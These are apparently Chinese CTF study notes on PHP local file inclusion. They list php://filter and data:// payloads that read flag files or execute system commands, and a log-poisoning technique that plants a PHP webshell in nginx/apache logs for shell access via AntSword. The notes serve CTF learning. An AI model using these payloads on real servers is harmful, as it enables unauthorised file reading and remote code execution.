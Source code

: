 # 文件包含

---

## 伪协议

```php
php://filter/read=convert.base64-encode/resource=flag.php
php://filter/read=convert.base64-encode/resource=flag

data://text/plain;base64,PD9waHAgc3lzdGVtKCdjYXQgL2ZsYWcnKTs/Pg==
data://text/plain,<?php system('ls');?> 
data://text/plain,<?php system('tac flag.php');?>
```

> 这两个PHP流过滤器（stream filter）的URL是用于读取文件内容并将其转换为Base64编码的字符串。但是，它们指向的文件名有所不同，这会导致它们的行为有所区别：
>
> 1. `php://filter/read=convert.base64-encode/resource=flag.php`
>    - 这个URL指定了要读取并编码的文件名为`flag.php`。如果当前目录下存在一个名为`flag.php`的文件，那么这个流过滤器将会读取该文件的内容，并将其转换为Base64编码。
> 2. `php://filter/read=convert.base64-encode/resource=flag`
>    - 这个URL指定了要读取并编码的文件名为`flag`。如果当前目录下存在一个名为`flag`的文件（没有文件扩展名），那么这个流过滤器将会读取该文件的内容，并将其转换为Base64编码。
>
> 区别在于文件扩展名：
>
> - 第一个URL明确指出了文件扩展名为`.php`，意味着它专门针对的是PHP文件。
> - 第二个URL没有指定文件扩展名，因此它可能指向任何类型的文件，只要文件名是`flag`。
>
> 如果目标文件`flag.php`和`flag`都存在于同一个目录中，这两个URL将分别读取和编码这两个不同的文件。如果只存在其中一个文件，那么只有指向该文件的URL会成功执行，另一个则会因为找不到文件而出错。如果两个文件都不存在，那么这两个URL都会因为无法找到资源而出错

### 过滤器

这里列举一些过滤器：

- convert.base64-encode

- rot13

```php
php://filter/read=string.rot13/resource=flag.php
```

- convert.iconv

```php
convert.iconv.<input-encoding>.<output-encoding> 
```

支持编码的字符串：

```
UCS-4*
UCS-4BE
UCS-4LE*
UCS-2
UCS-2BE
UCS-2LE
UTF-32*
UTF-32BE*
UTF-32LE*
UTF-16*
UTF-16BE*
UTF-16LE*
UTF-7
UTF7-IMAP
UTF-8*
ASCII*
EUC-JP*
SJIS*
eucJP-win*
SJIS-win*
ISO-2022-JP
ISO-2022-JP-MS
CP932
CP51932
SJIS-mac (alias: MacJapanese)
SJIS-Mobile#DOCOMO (alias: SJIS-DOCOMO)
SJIS-Mobile#KDDI (alias: SJIS-KDDI)
SJIS-Mobile#SOFTBANK (alias: SJIS-SOFTBANK)
UTF-8-Mobile#DOCOMO (alias: UTF-8-DOCOMO)
UTF-8-Mobile#KDDI-A
UTF-8-Mobile#KDDI-B (alias: UTF-8-KDDI)
UTF-8-Mobile#SOFTBANK (alias: UTF-8-SOFTBANK)
ISO-2022-JP-MOBILE#KDDI (alias: ISO-2022-JP-KDDI)
JIS
JIS-ms
CP50220
CP50220raw
CP50221
CP50222
ISO-8859-1*
ISO-8859-2*
ISO-8859-3*
ISO-8859-4*
ISO-8859-5*
ISO-8859-6*
ISO-8859-7*
ISO-8859-8*
ISO-8859-9*
ISO-8859-10*
ISO-8859-13*
ISO-8859-14*
ISO-8859-15*
ISO-8859-16*
byte2be
byte2le
byte4be
byte4le
BASE64
HTML-ENTITIES (alias: HTML)
7bit
8bit
EUC-CN*
CP936
GB18030
HZ
EUC-TW*
CP950
BIG-5*
EUC-KR*
UHC (alias: CP949)
ISO-2022-KR
Windows-1251 (alias: CP1251)
Windows-1252 (alias: CP1252)
CP866 (alias: IBM866)
KOI8-R*
KOI8-U*
ArmSCII-8 (alias: ArmSCII8)
```





### 日志包含

---

> ```apl
> 日志包含漏洞属于是本地文件包含，同样服务器没有很好的过滤，或者是服务器配置不当导致用户进入了内网，本来常规用户是访问不了这些文件的，但由于发起访问请求的人是服务器本身，也就导致用户任意文件读取。
> ```

apache服务器日志存放文件位置：/var/log/apache/access.log

nginx服务器日志存放位置：/var/log/nginx/access.log

​								/var/log/nginx/error.log



Web服务器都具有日志文件，以Nginx为例，日志文件有两个，分别存储的是正常的访问和发生错误的访问。如果Nginx以YUM的方式安装，那么其日志文件位置为/var/log/nginx/目录下，正常访问的日志为access.log，而错误访问的日志为error.log。
我们可以在访问该站点时，可以构造含有PHP木马的URL，然后访问该URL，使得Nginx发生访问错误，进而被记录进入错误日志。然后再借助文件包含漏洞，包含该错误日志，使得我们能够执行PHP木马，进而获得Web服务器shell权限。

> - /etc/nginx/nginx.conf：该文件是Nginx的配置的文件，该文件保存着能够影响服务器运行的配置信息。有时会泄露敏感信息。该文件支持php解析。
> - /var/log/nginx/access.log：该文件是Nginx的访问日志文件，Nginx会把每个用户访问信息记录到指定的日志文件里。该文件支持php解析。

**思路：**

​	向日志中传入一句话代码，然后用中国蚁剑连接，获取flag

### php://input

```php
php://input + [POST DATA]
http://127.0.0.1/include.php?file=php://input
[POST DATA部分]
<?php phpinfo(); ?>
```

![image-20240724234112138](C:/Users/lenovo/AppData/Roaming/Typora/typora-user-images/image-20240724234112138.png)